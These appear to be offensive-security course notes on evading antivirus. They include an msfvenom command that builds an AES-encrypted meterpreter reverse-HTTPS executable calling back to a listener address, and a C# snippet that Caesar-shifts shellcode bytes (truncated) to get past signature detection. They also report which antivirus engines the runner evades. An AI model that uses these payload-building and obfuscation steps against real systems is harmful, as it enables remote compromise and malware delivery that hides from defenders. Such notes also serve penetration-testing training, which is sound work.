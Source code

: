 For e.g: Generate an executable with AES256 encrypted shellcode and use a custom encryption key through the `--encrypt-key` option

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.1.123 LPORT=443 --encrypt aes256 --encrypt-key ENCRYPT_KEY -f exe -o payload64_aes.exe
```

[Hiding Metasploit Shellcode to Evade Windows Defender | Rapid7 Blog](https://www.rapid7.com/blog/post/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)

Security researchers have pointed out that Metasploit encryption will not effectively overcome security solutions if decoding or decryption techniques are static because they will be interpreted and signatures will be written.

# 6.3 Bypassing Antivirus with C`#`
## 6.3.1 C# Shellcode Runner vs Antivirus

Compile the C# shellcode runner from module 3 + module 4.

Check it with Antivirus engines. Observe that these shellcodes can bypass some basic anti-virus software (Avira and ClamAV), BUT some more powerful software still detects them.

The most commonly-used technique of bypassing antivirus is to **obfuscate** the embedded shellcode.

## 6.3.2 Encrypting the C# Shellcode Runner

References & credit:
- [Caesar Cipher in Cryptography - GeeksforGeeks](https://www.geeksforgeeks.org/caesar-cipher-in-cryptography/)
- [Exclusive OR - Wikipedia](https://en.wikipedia.org/wiki/Exclusive_or)
- [Bitwise XOR Operator in Programming - GeeksforGeeks](https://www.geeksforgeeks.org/bitwise-xor-operator-in-programming/#bitwise-xor-operator-in-c#)

This technique will bypassing signature detection

#### Basic_Caesar_Cipher

```cs
namespace Basic_Caesar_Cipher 
{ 
    public class Program 
	{ 
		static void Main(string[] args) 
		{ 
			byte[] buf = new byte[752] { 0xfc,0x48,0x83,0xe4,0xf0... }
			
			// Encrypt
			byte[] encoded = new byte[buf.Length]; 
			for(int i = 0; i < buf.Length; i++) 
			{ 
				encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF); 
			}
			
			// Decrypt
			byte[] buf_encrypt = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2... }
			for(int i = 0; i < buf_encrypt.Length; i++)
			{ 
				buf_encrypt[i] = (byte)(((uint)buf_encrypt[i] - 2) & 0xFF);
			}
		}
	}
}
```
